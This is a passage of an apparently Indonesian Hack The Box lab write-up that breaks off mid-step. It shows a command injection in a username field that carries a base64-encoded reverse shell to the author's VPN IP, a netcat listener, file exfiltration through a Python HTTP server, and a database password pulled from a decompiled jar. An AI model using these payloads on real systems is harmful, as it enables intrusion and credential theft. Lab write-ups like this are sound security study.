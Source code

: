 Dari hasil ini maka cara yang dapat kita ambil untuk mengambil alih suatu server adalah dengan menggunakan reverse shell, maka website yang dapat digunakan adalah [revshells](https://www.revshells.com/) agar dapat menggenerate payload

Dengan memasukkan IP VPN yang diberikan dan port yang kita mau dengar maka akan menghasilkan base64 seperti berikut

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/e9add872-b0de-432a-b4d8-ac05449f6c4a)

Lalu base64 tersebut dicopy dan dimasukkan ke dalam payload kemudian username yang sebelumnya `test` diganti menjadi payload `;echo${IFS}"c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNDAvODAwMCAwPiYx"|base64${IFS}-d|bash;`
seperti gambar dibawah

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/7b10ef6a-9e86-4ee3-89b7-f357bb00e708)

Lalu di terminal, saya menggunakan command netcat dan mencantumkan port yang mau kita dengar sehingga commandnya menjadi:

`nc -lvnp 8000`

Setelah meng netcat di terminal, maka saya akan send request dari repeater burpsuite, maka akan memberikan hasil seperti berikut

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/b97c1fa6-60df-4c9c-9320-45c88db9d127)

Kemudian, saya menjalankan command ls untuk melihat isi file dalam server dan dapat ditemukan  file `cloudhosting-0.0.1.jar`

Agar dapat mendownload file tersebut maka dilakukan command `python3 -m http.server 12345` untuk menjalankan server python yang kemudian dapat dibuka pada browser seperti dibawah

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/fe33d052-25fc-4070-9380-b6777ed712d2)

Setelah file jar di download, untuk membuka isi dari file tersebut, saya menggunakan website jdec.app lalu file diupload ke dalam web nya

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/674996f7-09d5-421c-81b8-48eae522764b)

Setelah di upload maka saya mengecek satu satu root dari file tersebut dan menemukan sebuah password yang dapat digunakan untuk user postgres pada `application.properties` yang mungkin dapat digunakan untuk melakukan SSH credential (contoh ada pada gambar dibawah)

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/3fc9b532-6d42-40a0-ae72-208110c15f9d)

Kemudian di dalam server, saya menggunakan command: 

`psql -U postgres -W Vg&nvzAQ7XxR`

yang dimana memberikan error, namun karena error tersebut, saya menemukan port dimana postgres dijalankan

![image](https://github.com/Bepe2306/Hack-The-Box-HTB-/assets/153899054/a51e6142-94a1-4fcc-a04c-00788c5b508e)

Maka kemudian saya coba lagi dengan menggunakan command:
